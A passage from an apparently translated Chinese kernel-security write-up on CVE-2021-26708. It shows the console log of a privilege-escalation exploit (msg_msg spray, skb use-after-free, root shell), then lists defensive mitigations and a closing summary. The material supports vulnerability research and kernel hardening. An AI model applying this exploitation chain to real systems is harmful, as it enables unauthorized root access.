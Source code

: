 ```
    m_ts 6096 at 0x7f0d91120ff0
    msgseg next 0xffff9125c42fa030 at 0x7f0d91120ff8
[+] go racing, show wins: 0 0 20 15 42 11 
[+] stage IV part II: arbitrary read skb via good overwritten msg_msg (msq 12)
[+] msgrcv returned 6096 bytes
[+] found a real skb

[+] stage V: try to do UAF on skb at ffff9125c42fa000
[+] skb payload:
    start at 0x7f0d91120004
    skb_shared_info at 0x7f0d91120ec4
    tx_flags 0x8
    destructor_arg 0xffff9125c42fa100
    callback 0xffffffffab64f6d4
    desc 0xffff9125c3fd6e53
[+] go racing, show wins: 15 

[+] stage VI: repeat UAF on skb at ffff9125c42fa000
[+] go racing, show wins: 0 12 13 15 3 12 4 16 17 18 9 47 5 12 13 9 13 19 9 10 13 15 12 13 15 17 30 

[+] finish as: uid=0, euid=0
[+] starting the root shell...
uid=0(root) gid=0(root) groups=0(root),1000(a13x) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```



## 0x11 防范措施

以下技术可以防止[CVE-2021-26708](https://nvd.nist.gov/vuln/detail/CVE-2021-26708)，或使其难以被利用：

1.使用**Linux内核堆隔离**，因为内存损坏发生在条件竞争之后不久。参见[https://a13xp0p0v.github.io/2020/11/30/slab-quarantine.html](https://a13xp0p0v.github.io/2020/11/30/slab-quarantine.html)

2.grsecurity补丁中的`MODHARDEN`可以防止无权限的用户自动加载内核模块

3.将`/proc/sys/vm/unprivileged_userfaultfd`设置为`0`能阻止payload驻留在内核空间

4.将`kernel.dmesg_restrict` sysctl 设置为`1` 能阻止通过内核日志的信息泄露

5.控制流完整性技术（Control Flow Integrity）可以防止该 ROP gadget 调用。参见：[https://github.com/a13xp0p0v/linux-kernel-defence-map](https://github.com/a13xp0p0v/linux-kernel-defence-map)

6.希望未来的Linux内核版本能够支持[ARM内存标签扩展(MTE)](https://community.arm.com/developer/ip-products/processors/b/processors-ip-blog/posts/enhancing-memory-safety)来缓解ARM上的use-after-free

7.我还听说过一个叫做`AUTOSLAB`的[grsecurity](https://grsecurity.net/) 技术，它根据对象类型在块缓存的不同，分配内核对象。这可能会使该漏洞中使用的堆喷技术无效



## 0x12 结尾

研究、修复[CVE-2021-26708](https://nvd.nist.gov/vuln/detail/CVE-2021-26708)和开发POC是一个有趣而又疲惫的旅程。我在**Fedora 33 Server（x86_64)** 上绕过**SMEP**和**SMAP**，将一个内存破坏非常有限的条件竞争变成了对内核内存的任意读/写和权限升级。在这个研究过程中，实现了几个新的漏洞利用技巧，相信这篇文章够为改善内核安全提供新思路。
